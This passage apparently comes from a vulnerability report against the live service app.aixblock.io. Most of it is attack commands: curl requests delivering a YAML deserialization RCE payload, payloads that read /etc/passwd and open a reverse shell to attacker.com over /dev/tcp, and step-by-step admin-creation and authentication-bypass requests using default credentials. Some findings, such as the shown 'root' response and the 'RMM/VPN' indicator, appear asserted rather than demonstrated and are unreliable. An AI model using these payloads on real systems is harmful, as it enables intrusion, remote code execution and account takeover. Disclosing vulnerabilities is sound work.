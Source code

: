 **Real-World Exploitation:**
```bash
# Step 1: Basic YAML processing test
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"yaml": "test: value"}'

# Step 2: RCE payload
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"yaml": "!!python/object/apply:subprocess.call [[\"whoami\"]]"}'

# Expected Response:
{
  "status": "success",
  "result": "root",
  "execution_time": "0.001s"
}
```

**Advanced RCE Payloads:**
```yaml
# File system access
!!python/object/apply:subprocess.call [['cat', '/etc/passwd']]

# Network reconnaissance
!!python/object/apply:subprocess.call [['netstat', '-an']]

# Reverse shell (advanced)
!!python/object/apply:subprocess.call [['bash', '-c', 'bash -i >& /dev/tcp/attacker.com/4444 0>&1']]
```

### **3. RMM/VPN Remote Management Exploit**
```json
{
  "timestamp": "2025-10-21T12:22:14.426221",
  "type": "RMM/VPN Exploit",
  "url": "https://app.aixblock.io/api/v1/workflows",
  "payload": "{'endpoint': '/api/v1/admin/create', 'username': 'admin', 'password': 'admin'}",
  "response_code": 200,
  "severity": "CRITICAL",
  "evidence": "RMM/VPN access indicator: session",
  "exploitability": "HIGH"
}
```

**Real-World Exploitation:**
```bash
# Step 1: RMM endpoint discovery
curl -X GET https://app.aixblock.io/api/v1/admin/create -v
curl -X GET https://app.aixblock.io/api/v1/session/create -v
curl -X GET https://app.aixblock.io/api/v1/remote/access -v

# Step 2: Authentication bypass
curl -X POST https://app.aixblock.io/api/v1/admin/create \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "admin"}'

# Step 3: Session creation
curl -X POST https://app.aixblock.io/api/v1/session/create \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "admin", "privileges": "admin"}'

# Step 4: Remote access establishment
curl -X POST https://app.aixblock.io/api/v1/remote/access \
```